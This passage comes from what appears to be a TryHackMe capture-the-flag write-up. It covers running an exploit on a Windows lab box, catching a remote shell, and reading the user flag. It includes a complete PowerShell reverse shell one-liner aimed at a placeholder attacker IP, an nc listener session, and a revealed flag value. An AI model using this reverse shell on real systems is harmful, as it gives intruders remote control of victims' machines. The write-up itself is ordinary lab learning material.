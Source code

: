   ```
  09/11/2021  08:18    <DIR>          sounds
  20/08/2019  13:14           366,592 sphinxbase.dll
  21/03/2018  21:39           349,184 ssleay32.dll
  09/11/2021  08:22    <DIR>          storage
  24/03/2018  21:20        15,766,528 v8.dll
  24/03/2018  21:05           177,152 v8_libbase.dll
  24/03/2018  21:19           134,656 v8_libplatform.dll
  03/04/2018  15:01           126,976 zlib.dll
                28 File(s)     96,800,060 bytes
                17 Dir(s)  50,087,198,720 bytes free
  ```

- Perfect, exploit worked! Reverse shell time, I did powershell reverse shell here.

  ```
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('[YOUR-THM-IP]',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
  {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

- Save it as `shell.ps1` and run the exploit. You will get a connection on your listener.

  ```
  $ python3 exploit.py 10.10.180.46 "$(cat shell.ps1)"
  Authenticated
  
  $ nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.180.46] 49910
  whoami
  win-eom4pk0578n\nekrotic
  ```

---

## 🧍 User Privilege Escalation

- Both flags are on Desktop but you cant read the root flag.

  ```
  PS C:\Users\Nekrotic> cd Desktop
  PS C:\Users\Nekrotic\Desktop> dir
  
  
      Directory: C:\Users\Nekrotic\Desktop
  
  
  Mode                LastWriteTime         Length Name                                                                  
  ----                -------------         ------ ----                                                                  
  -a----       09/11/2021     07:39             38 root.txt                                                              
  -a----       09/11/2021     07:39             38 user.txt                                                              
  
  
  PS C:\Users\Nekrotic\Desktop> Get-Content root.txt
  
  PS C:\Users\Nekrotic\Desktop> Get-Content user.txt
  THM{64bca0843d535fa73eecdc59d27cbe26}
  ```
